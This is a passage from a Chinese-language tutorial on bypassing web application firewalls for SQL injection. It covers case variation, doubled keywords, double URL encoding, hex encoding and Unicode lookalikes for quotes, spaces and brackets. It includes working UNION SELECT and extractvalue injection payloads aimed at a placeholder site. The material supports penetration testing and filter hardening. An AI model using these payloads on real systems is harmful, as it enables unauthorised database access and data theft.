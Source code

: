 f)使用特殊符号 
  
g)HTTP参数控制 
  
h)缓冲区溢出 
  
i)整合绕过 
  

  
a) 大小写绕过
  
大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 匹配时大小写不敏感便无法绕过，这是最简单的绕过技术
  
`z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4 ` 
  

  
示例场景可能的情况为filter的规则大小写敏感，现在直接使用这种绕过技术成功的可能性已经不高了吧
  
b)替换关键字
  
这种情况下大小写转化无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过
  
`z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4` 
  

  
替换关键字同样是很基础的技术，也可以构造得更复杂SeLSeselectleCTecT，关键要看正则表达式会进行几次匹配处理了
  

  
c)使用编码
  
1.URL编码  
在Chrome中输入一个链接非保留字的字符，浏览器会对其URL编码如空格变为%20、单引号%27、左括号%28、右括号%29
  
普通的URL编码可能无法实现绕过，不过存在某种情况URL编码只进行了一次解码过滤，可以用两次编码绕过
  
`page.php?id=1%252f%252a*/UNION%252f%252a/SELECT` 
  

  
2.十六进制编码  
`z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))`
  

  
示例代码中前者是对单个字符十六进制编码，后者则是对整个字符串编码，相对来说较少见一点
  

  
3.Unicode编码  
  
Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了
  
看一下常用的几个符号的一些Unicode编码
  
```
  
单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
  

  
空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
  

  
左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
  

  
右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
  
```
  